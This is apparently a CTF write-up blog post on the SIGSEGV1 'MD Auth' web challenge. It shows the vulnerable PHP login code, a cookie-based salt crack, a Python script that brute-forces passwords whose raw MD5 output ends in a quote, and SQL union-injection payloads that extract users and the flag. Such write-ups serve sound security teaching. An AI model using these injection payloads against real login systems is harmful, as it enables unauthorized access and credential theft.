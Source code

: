 ```yaml
---
layout: post
title: SIGSEGV1 Writeup - MD Auth
---
```


Let's talk about the "MD Auth" challenge, I admit I started with this challenge thinking it would be about "Markdown". I was wrong but it was nonetheless interesting to solve.

<!--more-->

The source code of the index was available by requesting : [http://finale-docker.rtfm.re:4444/?source](http://finale-docker.rtfm.re:4444/?source)

{% highlight php%}
<?php
$_TITLE = 'MD Auth';
$_LONGTITLE = 'MD Auth';
$con = new SQLite3('mdauth.db');

require 'config.php'; # 7-digit APP_SALT, MAX_ERRORS and check_errors()
if(isset($_POST['login'], $_POST['password'])) {
    $errors = isset($_COOKIE['signed_errors']) ? check_errors($_COOKIE['signed_errors']) : 0;
    if($errors >= MAX_ERRORS) {
        presult('You have been banned for reaching '.MAX_ERRORS.' errors');
    } else {
        $login = $con->escapeString($_POST['login']);
        $hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
        $query = $con->query("SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'");
        if(!$query) $row=FALSE; 
        else $row = $query->fetchArray();

        if($row !== FALSE&& $query->fetchArray() === FALSE) {
            presult("Welcome back {$row['login']}!");
        } else {
            presult('Wrong username/password combination!');
            setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
        }
    }
{% endhighlight %}

At first I tried to access the database with my browser by requesting [finale-docker.rtfm.re:4444/mdauth.db](finale-docker.rtfm.re:4444/mdauth.db), unfortunately that didn't work. Let's dig deeper into the source code. We want to authenticate on the Web Application, maybe we can do an SQL injection inside the following query.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
{% endhighlight %}

In order to exploit this, we need to bypass the `escapeString` function used for `$login` and `$hash`.

{% highlight php%}
<?php
$login = $con->escapeString($_POST['login']);
$hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
?>
{% endhighlight %}

The `md5` function is called with the second argument set to `true`, meaning we will get a binary output instead of a hexadecimal one. We might be able to get a backslash in the binary output, but we need to know the `APP_SALT` value in order to do our offline bruteforce. The author of the challenge was kind enough to provide a way to get this secret by misusing the `cookie`.

{% highlight php%}
<?php
setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
?>
{% endhighlight %}

We can do a single failed attempt in order to get a cookie containing the md5(SALT+"1"), based on the comment in the code we know the SALT is between 0000000-9999999 (7-digit APP_SALT). 

I got `MD5:4322dfb1e9b20645594e9f3f6998845a` which correspond to the following `PLAIN:86203711`. We now have our APP_SALT value : 8620371. The following script will bruteforce the first 1000 numbers looking for a quote in the last char of the MD5 output.

{% highlight python%}
import requests
import hashlib

# md5 true : http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
def computeMD5hash(my_string):
    m = hashlib.md5()
    m.update(my_string.encode('utf-8'))
    return m.digest()

# Use the salt to find a string ending by "\"
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "\\" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

In my first attempt, I was looking for a backslash "\" in order to escape the single quote "'" from the query and use the login to complete the SQL injection.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
SELECT login FROM users WHERE hash='GARBAGE\' and login=' OR 1=1--' 
{% endhighlight %}

It would have worked in a MySQL database, unfortunately we were in front of a SQLite one. The documentation and stackoverflow provided the useful information, escaping is done by doubling the quote.

{% highlight sql%}
INSERT INTO table_name (field1, field2) VALUES (123, 'Hello there''s');
{% endhighlight %}

I adjusted the script to check for a single quote and got the number `45`.

{% highlight python%}
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "'" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

Now it's just a simple SQL injection, by using the following credential i was able to extract interesting data.

{% highlight sql%}
login = "union all select hash from users limit 1--"
password = "45"

The query looked like "SELECT login FROM users WHERE hash='GARBAGE'' and login=' union all select hash from users limit 1--'"
with hash='GARBAGE'' and login='
{% endhighlight %}

I got the following users : `admin` and `flaggy`. Next step was to extract the flag from the database, it was located in the flag_field of the users.

{% highlight bash%}
union all select flag_field from users limit 2,1--
Welcome back sigsegv{82e9f4a155b9b740b4ff37624429b031}!
{% endhighlight %}